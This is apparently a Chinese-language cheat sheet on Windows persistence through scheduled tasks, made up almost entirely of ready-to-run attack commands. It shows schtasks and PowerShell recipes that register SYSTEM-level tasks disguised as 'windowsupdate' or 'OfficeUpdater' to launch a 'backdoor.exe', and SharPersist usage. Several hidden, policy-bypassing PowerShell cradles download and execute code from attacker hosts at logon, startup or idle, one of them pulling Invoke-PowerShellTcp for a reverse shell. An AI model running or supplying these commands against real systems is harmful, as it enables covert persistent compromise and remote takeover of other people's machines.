 #### 加载powershell
	>schtasks /Create /tn 名字 /tr 运行程序 /sc hourly /mo 1
	>schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.0.107:8080/Invoke-PowerShellTcp.ps1''')'"
#### 执行exe
	创建计划任务
	>schtasks /create /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\update.exe" /sc DAILY /mo 1 /ST 12:25 /RU SYSTEM
	查看计划任务
	>schtasks /query | findstr "windowsupdate"
	立即执行某项计划任务
	>schtasks /run /tn "windowsupdate"
	删除某项计划任务
	>schtasks /delete /F /tn "windowsupdate"
	普通用户权限计划任务
	>schtasks /create /F /tn "windowsupdate" /tr "D:\user\zhangsan\file\windowsupdate.exe" /sc DAILY /mo 1 /ST 12:25 
	>schtasks /query | findstr "windowsupdate" 
	>schtasks /run /tn "windowsupdate" 
	>schtasks /delete /F /tn "windowsupdate" 
	>schtasks /tn "SysDebug" /query /fo list /v
#### 使用powershell
  	PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
	PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
	PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
	PS C:\> $S = New-ScheduledTaskSettingsSet
	PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
	PS C:\> Register-ScheduledTask Backdoor -InputObject $D
#### 使用SharPersist
  	添加到当前计划任务
	>SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

	添加新任务
	>SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
	>SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
#### 细节使用
	计划任务以 SYSTEM 身份运行，每天上午 9 点或特定日期。
	# Powershell
	$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
	$T = New-ScheduledTaskTrigger -Daily -At 9am
	或
	$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
	$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
	$S = New-ScheduledTaskSettingsSet
	$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
	Register-ScheduledTask "Backdoor" -InputObject $D

	schtasks
	schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
	schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
	schtasks /Create /RU "NT AUTHORITY\SYSTEM" /tn [TaskName] /tr "regsvr32.exe -s \"C:\Users\*\AppData\Local\Temp\[payload].dll\"" /SC ONCE /Z /ST [Time] /ET [Time]

	(X86) - 在用户登录时
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
	 
	(X86) - 在系统启动时
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
	 
	(X86) - 在用户空闲时 (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
	 
	(X64) - 在用户登录时
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
	 
	(X64) - 在系统启动时
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
	 
	(X64) - 在用户空闲时 (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
